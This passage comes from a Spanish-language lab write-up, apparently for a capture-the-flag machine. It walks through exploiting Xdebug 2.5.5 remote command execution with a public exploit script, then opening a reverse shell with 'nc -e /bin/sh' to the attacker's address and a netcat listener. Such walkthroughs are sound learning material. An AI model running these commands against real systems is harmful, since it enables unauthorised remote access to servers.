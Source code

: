 Aqui vemos el uso de *Xdebug 2.5.5* el cual podríamos buscar si existe algún exploit público mediante `searchsploit`:

```bash
❯ searchsploit Xdebug 2.5.5
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
xdebug < 2.5.5 - OS Command Execution (Metasploit)                                             | php/remote/44568.rb
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Vemos que existen un módulo de metasploit, pero nosotros no ocupamos eso; así que buscamos un exploit en github:

[Xdebug Command Execution](https://github.com/k4miyo/Xdebug-Command-Execution)

Nos descargamos el exploit y procedemos a ejecutarlo indicandole los valores que nos solicita.

```bash
❯ python3 xdebug_rce.py --rhost 10.10.10.83 --lhost 10.10.14.16
[+] Payload: Connection received from 10.10.10.83:41632 on port 9000
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.10.83 on port 59748
[+] Reverse shell: Established connection
[*] Switching to interactive mode
$ whoami
www-data
```

Para trabajar más cómodos, nos entablamos una reverse shell. Así mismo, hacemos un [Tratamiento de la tty](/posts/tratamiento-tty):

```bash
$ nc -e /bin/sh 10.10.14.16 443
$ 
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.83] 59750
whoami
www-data
```

Observando un poco la terminal, vemos que nos encontramos en un contenedor, debido a que el prompt se nota `www-data@f00ba96171c5:/var/www/html`, además de que la dirección IP no corresponde con la máquina:
